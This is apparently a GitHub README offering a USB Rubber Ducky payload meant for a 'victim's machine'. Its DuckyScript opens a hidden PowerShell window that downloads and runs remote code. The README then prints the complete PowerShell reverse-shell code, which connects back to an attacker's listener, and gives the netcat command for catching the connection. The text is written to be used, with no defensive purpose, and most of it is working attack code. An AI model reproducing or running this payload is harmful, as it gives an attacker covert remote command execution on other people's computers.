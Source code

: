 Author of the payload: Me

Author of the powershell reverse shell: https://gist.github.com/ohpe

Description: A normal powershell reverse shell running in the background of the victim's machine.

Note: At the beginning of the script the USB Rubber Ducky waits 2.5 seconds to give the machine time to recognize it as a keyboard, this value can be reduced, reducing the total time the script will take to run.

Have fun!

Script:
```
DELAY 2500
GUI d
DELAY 500
GUI r
DELAY 100
STRING powershell -windowstyle hidden "IEX (New-Object Net.WebClient).DownloadString('<PAYLOAD URL>');"
ENTER
```

The payload url can be any website containing only the raw payload (Pastebin, Hastebin or you can host it with php or apache).

The payload url should contain this (Modified version of the original ohpe's powershell reverse shell): 

```Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser; $client = New-Object System.Net.Sockets.TCPClient('<LISTENER'S IP ADDRESS>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```


On the listener machine you should run nc with this command:
```
nc -l -p 443

```

